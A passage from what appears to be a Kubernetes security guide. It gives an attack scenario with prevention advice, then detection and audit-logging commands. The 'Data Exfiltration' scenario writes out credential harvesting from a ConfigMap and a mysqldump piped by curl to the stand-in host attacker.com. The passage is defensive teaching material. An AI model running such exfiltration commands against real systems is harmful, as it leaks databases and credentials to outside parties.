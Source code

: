 **Prevention:** Set resource limits and quotas

### Scenario 5: Data Exfiltration

**Setup:** No egress restrictions

**Attack:**
```bash
# Attacker dumps sensitive data
kubectl exec <vulnerable-pod> -- /bin/bash

# Finds database credentials in ConfigMap
kubectl get configmap fake-secrets -o yaml

# Connects to database
mysql -h db.internal -u root -pSuperSecret123

# Exfiltrates data to external server
mysqldump --all-databases | curl -X POST http://attacker.com/data
```

**Prevention:** Network policies for egress, audit logging

---

## Detection and Monitoring

### Signs of Compromise

```bash
# 1. Check for unusual processes
kubectl exec <pod> -- ps aux | grep -v nginx

# 2. Check for network connections
kubectl exec <pod> -- netstat -tuln

# 3. Check for modified files
kubectl exec <pod> -- find / -mtime -1 -type f

# 4. Review pod events
kubectl describe pod <pod> | grep -A 10 Events

# 5. Check resource usage
kubectl top pods
```

### Logging and Auditing

```bash
# Enable audit logging (GKE)
# Already enabled by default in GKE

# View audit logs
gcloud logging read "resource.type=k8s_cluster" --limit 50

# Search for security events
gcloud logging read 'protoPayload.methodName="io.k8s.core.v1.pods.exec"' --limit 20

# Alert on suspicious activities:
# - Exec into pods
# - Privileged pod creation
# - Secret access
# - ServiceAccount token usage
```

---